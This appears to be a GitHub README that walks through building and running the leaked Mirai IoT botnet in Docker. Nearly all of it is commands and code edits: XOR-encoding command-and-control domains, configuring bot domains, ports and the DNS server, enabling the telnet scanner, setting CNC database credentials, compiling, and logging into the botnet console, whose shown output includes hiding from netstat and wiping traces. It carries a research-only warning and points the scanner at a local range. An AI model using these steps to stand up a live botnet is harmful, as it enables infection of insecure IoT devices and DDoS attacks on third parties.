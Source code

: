 # Mirai-Docker

This is a docker compose file that makes it easy to build the [Mirai Botnet](https://en.wikipedia.org/wiki/Mirai_(malware)) development environment, CNC server and database.

Mirai Botnet is a malware that performs DDoS attacks by infecting insecure Internet of Things(IoT) devices.
It was used in a DDoS attack in 2016, and the source code was leaked.
It is now open to [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code) for malicious code analysis and research purposes. 

미라이 봇넷의 개발 환경과 CNC 서버 및 데이터베이스를 쉽게 구축할 수 있도록 만든 도커 컴포즈 파일입니다.

미라이 봇넷은 보안이 취약한 사물 인터넷(IoT) 기기를 감염시켜 DDoS 공격을 수행하는 악성코드입니다.
2016년 DDoS 공격에 사용되었으며, 소스코드가 유출되어 현재는 악성코드 분석 및 연구 목적으로 [Mirai-Source-Code](https://github.com/jgamblin/Mirai-Source-Code)에 공개되어 있습니다.

**WARNING: FOR RESEARCH PURPOSES ONLY. 연구 목적으로만 사용하세요.**


## 01. Install docker and docker compose
https://docs.docker.com/get-docker/

https://github.com/docker/compose


## 02. Clone this repository
```
$ git clone https://github.com/deunlee/Mirai-Docker
$ cd Mirai-Docker
```


## 03. Build docker containers
```
$ docker compose build
```


## 04. Encrypt your domain
```
$ docker compose run compile ./enc.sh string cnc.changeme.com
XOR'ing 17 bytes of data...
\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```
```
$ docker compose run compile ./enc.sh string report.changeme.com
XOR'ing 20 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22
```

<!--
```
$ docker compose run compile ./enc.sh string cnc-10-20-0-10.nip.io
XOR'ing 22 bytes of data...
\x41\x4C\x41\x0F\x13\x12\x0F\x10\x12\x0F\x12\x0F\x13\x12\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```
```
$ docker compose run compile ./enc.sh string report-10-20-0-10.nip.io
XOR'ing 25 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0F\x13\x12\x0F\x10\x12\x0F\x12\x0F\x13\x12\x0C\x4C\x4B\x52\x0C\x4B\x4D\x22
```
-->

## 05. Configure bot
Edit some domains in [./src/mirai/bot/table.c](./src/mirai/bot/table.c)
```c
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2); // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 29); // report.changeme.com
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2); // 48101
```

Edit DNS server in [./src/mirai/bot/resolv.c](./src/mirai/bot/resolv.c)
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    // ...

    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(8,8,8,8); // <-- here!
    addr.sin_port = htons(53);

    // ...
}
```

If you want to enable scanner in debug mode, comment out the following two lines in [./src/mirai/bot/main.c](./src/mirai/bot/main.c).
```c
// #ifndef DEBUG // <-- comment here!
#ifdef MIRAI_TELNET
    scanner_init();
#endif
// #endif // <-- comment here!
```

Edit get_random_ip() function in [./src/mirai/bot/scanner.c](./src/mirai/bot/scanner.c).
```c
static ipv4_t get_random_ip(void)
{
    uint32_t tmp;
    uint8_t o1, o2, o3, o4;

    // comment do-while loop

    return INET_ADDR(172, 20, 0, rand_next() & 0xff); // fixed ip range
}
```

## 06. Configure CNC
Edit database config in [./src/mirai/cnc/main.go](./src/mirai/cnc/main.go)
```go
const DatabaseAddr string   = "mariadb" // "127.0.0.1"
const DatabaseUser string   = "user"
const DatabasePass string   = "this-is-password!"
const DatabaseTable string  = "mirai"
```

Edit prompt path in [./src/mirai/cnc/admin.go](./src/mirai/cnc/admin.go)
```go
headerb, err := ioutil.ReadFile("/home/user/src/mirai/prompt.txt") // <-- here!
```

Edit CNC user in [./src/scripts/db.sql](./src/scripts/db.sql)
```sql
-- CREATE DATABASE mirai; --- comment here!

CREATE TABLE `history` (

--- ...

  KEY `prefix` (`prefix`)
);

INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, ''); --- here!
```


## 07. Compile everything
```
$ docker compose run compile ./build.sh
```

Debug bot only:
```
$ docker compose run compile ./debug.sh
```


## 08. Run CNC, loader, scanListen and mariadb
```
$ docker compose up
```

## 09. Connect to CNC server
```
$ docker compose exec cnc telnet 127.0.0.1
```
```
$ telnet 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
я люблю куриные наггетсы
пользователь: mirai-user
пароль: **********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
mirai-user@botnet#
```

<!--
```
$ docker compose run compile
mysql -h mariadb -P 3306 -u"user" -p"this-is-password!"
use mirai;
select * from users;
```
```
$ docker compose up mariadb -d
$ docker compose run compile sudo ./src/mirai/debug/cnc
```
-->


## 10. Run victim (insecure telnet server)
```
$ docker compose run victim
```


## 10. Run bot
It will scan and report victims.
```
$ docker compose run bot /home/user/src/mirai/debug/mirai.dbg
```
